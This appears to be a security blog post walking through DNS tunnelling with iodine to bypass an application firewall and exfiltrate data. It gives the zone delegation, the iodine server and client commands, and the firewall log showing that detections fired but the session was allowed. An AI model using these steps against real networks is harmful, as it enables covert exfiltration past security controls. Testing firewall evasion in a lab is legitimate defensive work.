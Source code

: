 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2020-08-03 10:43:25 -0400
categories: exfiltration 
tags: app-id
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control.
</p>

<p>
We will be leveraging the DNS in this container, <a href="https://github.com/freshdemo/mailanddns" target="_blank">https://github.com/freshdemo/mailanddns</a>.
</p>

<p>
The zone file will need to be edited to add a sub-domain which is delegated to the public IP address of your iodine server. Keep in mind that example.com is not publicly available so you would need to have your laptop pointed to the public IP of this docker container for this to work, which is why you would want a publicly routable domain outside of a proof of concept. The IP address for t1ns is the IP address of a host instantiated in Azure for this testing.
</p>
<br>
<br>
<pre>
editing forward.example.com

t1      IN      NS      t1ns.example.com.
t1ns    IN      A       52.156.0.169
</pre>

<p>
Don't forget to restart BIND.
</p>
<br>
<br>
<code>
/etc/init.d/bind9 restart
</code>

<p>
You can validate the DNS is setup correctly by ensuring that the delegation resolves correctly.
</p>
<br>
<br>
<pre>
dig t1ns.example.com +short
52.156.0.169
</pre>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 52.156.0.169) start the iodine server. The address 172.16.25.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server.
</p>
<br>
<br>
<code>
iodined -f 172.16.25.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<img src="/images/appid-evasion-iodineserver.png">


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<code>
iodine -f 52.156.0.169 -P boom t1.example.com
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<img src="/images/appid-evasion-iodineclient.png">

<p>
At this point you should be able to ping the server (172.16.25.1) at the other side of the tunnel.
</p>

<img src="/images/appid-evasion-iodineping.png">

<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side.
</p>

<p>
For additional security without the requirement to setup more software you could use an SSH tunnel where the address in this case would be 172.16.25.1, <a href="http://127.0.0.1:4000/exfiltration/2020/07/28/appid-evasion-sshtunnel.html" target="_blank">http://127.0.0.1:4000/exfiltration/2020/07/28/appid-evasion-sshtunnel.html</a>
<p>

<h3>Step 5 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW permitted the session. That being said there were three opportunities so far that it could have prevented this traffic; The application was identified as tcp-over-dns where all you would want is DNS at most, then there were two spyware signatures identified as "Yourfreedom Command and Control" and "Iodine DNS Tunnel Tool Command and Control".
</p>
<br>
<br>
<img src="/images/appid-evasion-iodinengfw.png" alt="ngfw">



